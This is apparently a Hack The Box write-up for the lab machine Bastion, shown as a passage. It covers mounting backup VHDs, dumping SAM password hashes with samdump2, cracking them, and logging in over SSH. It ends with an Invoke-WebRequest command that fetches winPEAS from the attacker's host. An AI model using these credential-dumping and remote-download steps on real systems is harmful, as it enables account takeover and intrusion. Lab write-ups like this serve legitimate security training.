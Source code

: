 ```
cd113385-65ff-4ea2-8ced-5630f6feca8f_Writere8132975-6f93-4464-a53e-1050253ae220.xml
bibo318@parrot:/mnt$ sudo mkdir vhd
bibo318@parrot:/mnt$ bibo318@parrot:/mnt$ sudo guestmount --add /mnt/backup/9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd --ro /mnt/vhd -m /dev/sda1 # mount vhd
bibo318@parrot:/mnt$ ls -la vhd
ls: cannot access 'vhd': Permission denied
bibo318@parrot:/mnt$ sudo ls -la vhd
total 400
drwxrwxrwx 1 root root   4096 Feb 22  2019  .
drwxr-xr-x 4 root root   4096 Oct 16 11:19  ..
drwxrwxrwx 1 root root   4096 Feb 22  2019  Boot
-rwxrwxrwx 1 root root 383786 Nov 20  2010  bootmgr
-rwxrwxrwx 1 root root   8192 Feb 22  2019  BOOTSECT.BAK
drwxrwxrwx 1 root root   4096 Feb 22  2019 'System Volume Information'
```
after examining it for a while, didnt seem like we get anything useful here. let mount another vhd and examine it!
```console
bibo318@parrot:/mnt$ sudo guestmount --add /mnt/backup/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --ro /mnt/vhd -m /dev/sda1
```
this vhd looks much more interesting BUT no user flag...

here is some links to read:
- https://superuser.com/questions/1416834/what-is-c-windows-system32-config-system
- https://traviswhitney.com/2016/12/30/using-samdump2/
- http://www.computersecuritystudent.com/SECURITY_TOOLS/PASSWORD_CRACKING/lesson2/
so my plan is, copy 2 files, SAM and SYSTEM at `%SystemRoot%\System32\config` -> dump the user password hashes and crack them. Please chack the first like to learn more about `%SystemRoot%\System32\config`. We will use a tool call `sampdump2` to dump hashes, read more at link 2 and 3.
```console
bibo318@parrot:~/HTB/bastion$ sudo samdump2 SYSTEM SAM > hash.txt
bibo318@parrot:~/HTB/bastion$ cat hash.txt 
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```
I used john, but it take long time, so let try crackstation while waiting for john.


Boom! we got L4mpje's password -> L4mpje:bureaulampje, let grab user flag
```console
bibo318@parrot:~/HTB/bastion$ ssh L4mpje@bastion.htb 
l4mpje@BASTION C:\Users\L4mpje\Desktop>type user.txt                                                          
<something> 
```
# root
```                                                                            
l4mpje@BASTION C:\Users\L4mpje\Desktop>systeminfo                                                             
ERROR: Access denied                                
```
that is weird, that mean we will not be able to get many info when we use infomation gathering tool such as `winPEAS`. Anyway, let's try to run it anyway. start with getting `winPEAS` to Bastion. `Invoke-WebRequest http://10.10.14.43:8888/winPEAS-x86.exe -OutFile winPEAS.exe`
